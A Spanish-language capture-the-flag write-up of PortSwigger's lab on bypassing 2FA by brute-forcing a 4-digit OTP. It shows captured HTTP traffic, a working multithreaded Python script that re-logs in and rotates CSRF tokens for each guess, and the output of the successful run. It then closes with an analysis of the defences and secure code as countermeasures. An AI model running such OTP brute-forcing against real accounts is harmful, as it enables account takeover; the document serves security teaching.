

# Writeup: 2FA bypass using a brute-force attack (PortSwigger)

- **Lab**: 2FA bypass using a brute-force attack
- **URL**: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack
- **Categoría**: Authentication / MFA bypass por brute-force de OTP con coordinación de sesiones
- **Dificultad**: Practitioner
- **Credenciales propias**: ninguna (no hace falta wiener)
- **Credenciales objetivo**: `carlos:montoya` (provistas por el lab; el OTP es lo que hay que adivinar)

---

## 1. Objetivo

Acceder al panel `/my-account?id=carlos`. Tenemos sus credenciales `carlos:montoya`, pero el flujo de auth requiere un código 2FA de 4 dígitos enviado al email de carlos (que no controlamos). El OTP es de 4 dígitos = 10⁴ candidatos. Sin rate-limit por IP/usuario y sin captcha, brute-force es factible — pero el server tiene **defensas estructurales** que complican la mecánica:

1. **CSRF token rota en cada response**: cada request necesita el csrf fresco extraído del HTML de la response anterior. Imposibilita el brute-force paralelo trivial sobre una sola sesión.
2. **Session kick al segundo intento de OTP**: tras el segundo `mfa-code` enviado, el server invalida la sesión y redirige a `/login`. Cada candidato requiere re-loguearse para tener una sesión nueva del paso 2.

El "vector" del lab no es un bug puntual sino la composición de **defensas insuficientes**: la combinación rotación-csrf + kick-al-segundo-intento parece robusta, pero ninguna de las dos cuesta significativamente al atacante con un script. La fix correcta requiere algo más (rate-limit por usuario/IP, captcha, lockout temporal por cuenta).

### El insight central

El defender pensó en obstáculos, no en costos. Los obstáculos son:

- **CSRF rotation** → "no podés blastear con un script tonto que reusa el mismo csrf".
- **Session kick** → "tras el primer intento, la sesión se invalida".

Cuesta al atacante exactamente:

- **CSRF rotation** → 1 line de código (regex sobre la response anterior).
- **Session kick** → 1 re-login adicional por cada candidato (4 requests por candidato vs 1).

El multiplicador 4× sobre 10⁴ candidatos = 4×10⁴ requests. Con paralelismo (sesiones independientes en distintos workers), el ataque completo termina en **menos de 1 minuto**. Las "defensas" agregaron 4× al costo del atacante; el atacante real necesita defensa que agregue 1000× o más, idealmente lockout exponencial o bloqueo absoluto tras N fallos.

---

## 2. Reconocimiento

### 2.1 Mapear el flujo legítimo

Login con `carlos:montoya`:

```http
POST /login HTTP/2
Host: 0afc001a0480d8f48089266500c3002b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=5sPY50y5ixGy7b1FsF8SnKxC05ifC1nw&username=carlos&password=montoya
```

Response:
```http
HTTP/2 302 Found
Location: /login2
Set-Cookie: session=WNY6cE6r8FJCqbOm3bzN2mT4buuLMYUw; Secure; HttpOnly; SameSite=None
```

Tres datos clave:

1. **CSRF en body**: `csrf=5sPY...` viaja en el form. Sin él, la request es rechazada. Notar que el csrf tiene que extraerse del `GET /login` previo donde aparece como `<input type=hidden name=csrf value="...">`.
2. **Cookie de sesión seteada en paso 1**: `session=WNY6...` se emite antes del 2FA. Esa cookie autoriza al endpoint `/login2` para validar el OTP.
3. **Redirect a `/login2`**: el server espera el OTP. La página renderea un form con un csrf nuevo (distinto del de `/login`).

### 2.2 Probar OTP incorrecto y observar comportamiento

`POST /login2` con `mfa-code=1236` y el csrf del form:

```http
HTTP/2 200 OK
Content-Type: text/html

...
<input required type="hidden" name="csrf" value="A64LWZWOHQNTfvt969AUpLLVin3VRmZP">
<p class=is-warning>Incorrect security code</p>
...
```

Observaciones:

- **Status 200 con re-render del form**: el OTP fue evaluado y rechazado. El server no kickea inmediatamente.
- **CSRF token rotó**: el valor del input `csrf` cambió de `5sPY...` a `A64LW...`. La próxima request necesita usar el nuevo.
- **Mensaje específico**: `<p class=is-warning>Incorrect security code</p>` aparece. Eso sirve de discriminador secundario (además del status code).

### 2.3 Encontrar el threshold de session kick

Probando intentos sucesivos con la misma sesión (extrayendo csrf de cada response):

| Intento | Status | Resultado observado |
|---|---|---|
| 1 (`mfa-code=1236`) | 200 | "Incorrect security code", csrf rota |
| 2 (`mfa-code=1111`) | 302 → /login | **Sesión invalidada** |

**Conclusión**: el server permite **un solo intento de OTP por sesión**. El segundo intento no se evalúa; el server reconoce que ya hubo uno previo y kickea preventivamente. Esa heurística simple ("máximo 1 intento por sesión del paso 1") es el "rate-limit" del lab.

Cualquier brute-force, entonces, requiere por candidato:

1. `GET /login` → extraer csrf (csrf-1)
2. `POST /login` con csrf-1 + `carlos:montoya` → 302 a `/login2`, session cookie nueva
3. `GET /login2` → extraer csrf (csrf-2)
4. `POST /login2` con csrf-2 + `mfa-code=<candidato>` → 200 (incorrect) o 302 a `/my-account` (correct)

4 requests HTTP por candidato. 10⁴ candidatos = 4×10⁴ requests totales.

### 2.4 ¿Por qué la rotación de csrf no es defensa contra brute-force?

CSRF tokens están diseñados para defender contra ataques **cross-site** (otra origin haciendo la request en nombre del user logueado). El atacante en CSRF no controla el flow normal de la app — se beneficia de cookies que el browser envía automáticamente, pero no puede leer responses cross-origin.

Brute-force es un ataque **mismo-origin**: el atacante hace todas las requests en su propio nombre, leyendo todas las responses, rotando csrf según necesite. La rotación que protege contra CSRF es trivialmente bypass-able cuando el atacante tiene control directo del flow.

Lección de diseño: **CSRF tokens no sustituyen rate-limit**. Cumplen funciones distintas y atacan threat models distintos. Desplegar uno sin el otro es defensa parcial.

---

## 3. Resolución

### 3.1 Mecánica del ataque

```
Para cada candidato c en 0000..9999:
  1. GET /login -> extraer csrf-1
  2. POST /login (csrf-1, carlos, montoya) -> session cookie nueva
  3. GET /login2 -> extraer csrf-2
  4. POST /login2 (csrf-2, mfa-code=c) ->
       302 a /my-account?id=carlos -> WIN, capturar session post-2FA
       200 con "Incorrect security code" -> siguiente candidato
```

Cada candidato es **independiente**: usa su propia sesión, su propia cookie, su propio par de csrf tokens. Los workers pueden correr en paralelo sin coordinación, cada uno reservándose un subset del rango.

### 3.2 Script Python

[`bruteforce.py`](./bruteforce.py) implementa el patrón con `ThreadPoolExecutor`. Núcleo:

```python
CSRF_RE = re.compile(rb'name="csrf"\s+value="([^"]+)"')

def try_code(host, code):
    s = make_session()
    base = f"https://{host}"

    # 1. GET /login -> csrf
    r = s.get(f"{base}/login", allow_redirects=False)
    csrf1 = CSRF_RE.search(r.content).group(1).decode()

    # 2. POST /login -> auth, 302 a /login2
    r = s.post(f"{base}/login",
               data={"csrf": csrf1, "username": "carlos", "password": "montoya"},
               allow_redirects=False)

    # 3. GET /login2 -> csrf paso 2
    r = s.get(f"{base}/login2", allow_redirects=False)
    csrf2 = CSRF_RE.search(r.content).group(1).decode()

    # 4. POST /login2 -> probar mfa-code
    r = s.post(f"{base}/login2",
               data={"csrf": csrf2, "mfa-code": f"{code:04d}"},
               allow_redirects=False)

    if r.status_code == 302 and "/my-account" in r.headers.get("Location", ""):
        return code, r.status_code, s.cookies.get("session")  # WIN
    return code, r.status_code, None  # next
```

El discriminador: `r.status_code == 302 and "/my-account" in Location`. Cualquier otra cosa (200 con form, 302 a `/login` por kick) es candidato wrong.

`requests.Session()` por worker maneja las cookies automáticamente entre los 4 requests del cycle. Cada worker tiene su propia sesión, así que los 40 workers operan independientes.

### 3.3 Ejecución

```bash
python3 bruteforce.py \
    --host 0afc001a0480d8f48089266500c3002b.web-security-academy.net \
    --workers 40
```

Salida real:

```
[*] Target: 0afc001a0480d8f48089266500c3002b.web-security-academy.net
[*] Account: carlos:montoya
[*] Rango: 0000..9999 (40 workers)
    200/10000 probados, ultimo: 0209 status 200

[+] OTP CORRECTO: 0255
    Status: 302
    Session post-2FA: 0RwFmIlE672oWe3XprsMSA2fNh14jaVL
```

**Código 0255 apareció en menos de 200 intentos** (~5 segundos wall-time). El espacio de búsqueda real fue mucho menor al máximo teórico de 10⁴ por suerte estadística. En el peor caso (código 9999), el ataque tardaría ~5 minutos con 40 workers.

### 3.4 Acceso al panel y registro del solve

```bash
curl -i 'https://0afc001a0480d8f48089266500c3002b.web-security-academy.net/my-account' \
    -H 'Cookie: session=0RwFmIlE672oWe3XprsMSA2fNh14jaVL'
```

Status 200 con el panel de carlos. Banner del lab cambia de `is-notsolved` a `is-solved`.

---

## 4. Por qué funciona

### 4.1 Brute-force resistance != "tener defensas"

El defender de este lab implementó dos mecanismos visibles:

1. **CSRF rotation**: visible al inspeccionar el form HTML.
2. **Session kick al 2do intento**: visible al probar 2 OTPs consecutivos.

Ambos son defensas legítimas para problemas distintos:

- CSRF rotation → ataques CSRF cross-site (un sitio malicioso haciendo POST a `/login2` desde el browser de la víctima).
- Session kick → defensa contra "spam" del 2FA en flows interactivos legítimos (un user que tipea mal varias veces).

Pero **ninguno mitiga brute-force** por un atacante con script:
- CSRF rotation se bypassea con regex sobre la response.
- Session kick se bypassea con re-login por candidato.

La métrica importante en brute-force es **costo por candidato testado**. Las "defensas" del lab elevan ese costo de 1 request a 4 requests, un multiplicador trivial. Para defender realmente contra brute-force se necesita **lockout exponencial o absoluto** que escale con N intentos:

- 5 intentos en 5 minutos → captcha
- 10 intentos en 5 minutos → lockout 15 min
- 20 intentos en 1 hora → lockout 24h o alerta

Esos costos son **no-lineales** (lockout no escala con tu paralelismo, escala con tiempo absoluto), y **rompen el modelo** del atacante con script (que asume requests baratos y rápidos).

### 4.2 La diferencia con "2FA broken logic"

Comparación:

| Aspecto | 2FA broken logic | 2FA bypass using brute-force (este) |
|---|---|---|
| Espacio de búsqueda | 10⁴ (4 dígitos) | 10⁴ (4 dígitos) |
| Defensas observadas | Ninguna sobre el OTP | CSRF rotation + session kick al 2do intento |
| Trick principal | `verify=<user>` cookie controlable | Ninguno; brute-force directo con re-login |
| Requests por candidato | 1 (con sesión persistente) | 4 (re-login completo cada vez) |
| Tiempo total | <1 minuto | <5 minutos |
| Vector "elegante" | Sí (cross-user via cookie) | No (puro brute-force) |

Ambos labs ilustran la misma vuln central — **OTP de 4 dígitos sin rate-limit real** — pero envueltos en defensas decorativas distintas. Un defender que "tiene 2FA con CSRF y session rotation" puede creer que tiene defensa robusta; en realidad el costo del atacante es insignificantemente mayor que el lab más simple.

### 4.3 Implementación correcta

```python
# Antipatron: 1 intento por sesion, csrf rotativo, sin lockout
@app.route('/login2', methods=['POST'])
def login2_broken():
    if not validate_csrf(request.form['csrf']):
        abort(403)
    if session.get('attempted_otp'):
        # Kick al 2do intento
        session.clear()
        return redirect('/login')
    session['attempted_otp'] = True
    user = User.find(session.get('pending_user_id'))
    if not verify_otp(user, request.form['mfa-code']):
        return render_template('login2.html',
                               error="Incorrect security code")
    session['stage'] = 'AUTHENTICATED'
    session.regenerate_id()
    return redirect('/my-account')

# Implementacion correcta
@app.route('/login2', methods=['POST'])
def login2_safe():
    if not validate_csrf(request.form['csrf']):
        abort(403)
    user = User.find(session.get('pending_user_id'))
    if not user:
        return redirect('/login')

    # Rate-limit por user, contando intentos en ventana
    if get_otp_attempt_count(user.id) >= 5:
        lock_account_temporarily(user.id, duration_minutes=15)
        notify_user_of_lockout(user.email)
        return generic_error("Too many attempts")

    record_otp_attempt(user.id, request.remote_addr)

    if not verify_otp(user, request.form['mfa-code'], session_id=session.id):
        return render_template('login2.html',
                               error="Incorrect security code")

    invalidate_otp(user.id)  # one-shot use
    session['stage'] = 'AUTHENTICATED'
    session.regenerate_id()
    return redirect('/my-account')
```

Cuatro diferencias clave en la versión correcta:

1. **Rate-limit por usuario, no por sesión**: contar intentos contra el `user_id`, no contra la cookie. Re-loguearse no resetea el contador.
2. **Lockout temporal absoluto**: tras 5 intentos fallidos, cuenta lockeada por 15 min. El brute-force termina en ~5 candidatos como máximo, no en 10⁴.
3. **OTP ligado a sesión**: el código se valida solo si la sesión es la misma que disparó la generación. Un OTP capturado de otro flow no sirve.
4. **One-shot use**: tras consumirse correctamente, invalidar. Tras N intentos fallidos también.
5. **Notificación al usuario**: lockout dispara email/SMS al user real, que puede investigar.

### 4.4 Patrón general - "Defensas decorativas"

Mecanismos de seguridad que existen pero no atacan el threat model real son comunes:

- **CAPTCHA solo en login** pero no en endpoints de password reset, change password, OTP submission, etc.
- **Rate-limit por IP** (bypass: rotation de IPs, X-Forwarded-For, Cloudflare).
- **CSRF tokens** sin rate-limit (este lab).
- **MFA por SMS** sin defensa contra SIM swap (atacante captura codigo).
- **Password complexity rules** sin breached-password check (`Password123!` cumple complexity y está en cualquier dump).
- **HTTPS** sin HSTS (downgrade attack).
- **Cookie HttpOnly** sin Secure ni SameSite (interceptación HTTP, CSRF).

La regla universal: **cada defensa atiende a un threat model específico**. Apilar defensas de un solo threat model no protege contra otros. Defensa en profundidad real requiere capas que ataquen distintos vectores.

---

## 5. Resumen de la cadena



Tres ideas para llevarse:

1. **CSRF rotation y session kick no son rate-limit**. Son obstáculos pequeños que el atacante con script absorbe en su flow, no defensas que escalen no-linealmente con N intentos.
2. **El brute-force no necesita ser "elegante"**. Si el espacio es chico (10⁴) y el costo por intento es bajo (1-4 requests), la fuerza bruta gana incluso con defensas decorativas.
3. **El threat model "atacante interactivo" vs "atacante con script" requiere defensas distintas**. CSRF y session kick mitigan al primero (un tipeador legítimo confundido); rate-limit/lockout mitigan al segundo. Un sistema que solo tiene las primeras es vulnerable al segundo.

---

## 6. Contramedidas

En orden de robustez:

1. **Rate-limit por usuario, no por sesión**: contar intentos contra `user_id`, no contra cookie de sesión. Re-loguearse no resetea el contador. Lockout absoluto tras N intentos en ventana M.
2. **Lockout exponencial**: 5 intentos → 1 min, 10 → 5 min, 20 → 1 hora, etc. Hace el brute-force prohibitivo en costo de tiempo.
3. **OTP ligado a sesión específica**: el código se emite para `(user_id, session_id)` y solo valida con esa misma sesión. Captura de un OTP de otro flow no sirve.
4. **Expiración corta del OTP**: 60-300s. Un OTP que expira mid-brute-force fuerza al atacante a reiniciar y aumenta su costo.
5. **One-shot**: tras consumirse, invalidar. Tras N fallos, también.
6. **Captcha tras 2-3 intentos**: aunque el atacante pueda resolverlo con servicios de OCR/captcha-solving (~$0.001 por captcha), eleva costo sustancialmente.
7. **Notificación al usuario**: emails/SMS al user real ante lockout. Detección post-explotación.
8. **WebAuthn/passkeys** para flujos críticos: inmune a brute-force, phishing y replay.
9. **No hacer kick al 2do intento**: es defensa decorativa que no protege contra brute-force pero sí degrada UX legítimo (user que tipea mal una vez se queda sin OTP). Mejor: rate-limit + mensaje uniforme.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: 2FA bypass using a brute-force attack*. https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack
- PortSwigger Web Security Academy. (s.f.). *Multi-factor authentication*. https://portswigger.net/web-security/authentication/multi-factor
- OWASP Foundation. (s.f.). *Authentication Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Multifactor Authentication Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Multifactor_Authentication_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Cross-Site Request Forgery Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
- MITRE Corporation. (2024). *ATT&CK Technique T1110.001: Brute Force - Password Guessing*. https://attack.mitre.org/techniques/T1110/001/
- MITRE Corporation. (2024). *ATT&CK Technique T1556.006: Modify Authentication Process - Multi-Factor Authentication*. https://attack.mitre.org/techniques/T1556/006/
- MITRE Corporation. (2024). *CWE-307: Improper Restriction of Excessive Authentication Attempts*. https://cwe.mitre.org/data/definitions/307.html
- MITRE Corporation. (2024). *CWE-799: Improper Control of Interaction Frequency*. https://cwe.mitre.org/data/definitions/799.html
- NIST. (2017). *SP 800-63B: Digital Identity Guidelines - Authentication and Lifecycle Management*. https://pages.nist.gov/800-63-3/sp800-63b.html
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 6 (Attacking Authentication).
- Writeups hermanos del cluster MFA:
  - [`learning/portswigger/2fa-simple-bypass/writeup.md`](../2fa-simple-bypass/writeup.md) — paso 2 sin enforcement server-side.
  - [`learning/portswigger/2fa-broken-logic/writeup.md`](../2fa-broken-logic/writeup.md) — cookie verify=user controlable + OTP sin rate-limit.
- Inventario interno: [`inventario/04-explotacion/web/explotacion-mfa-bypass.md`](../../../inventario/04-explotacion/web/explotacion-mfa-bypass.md)
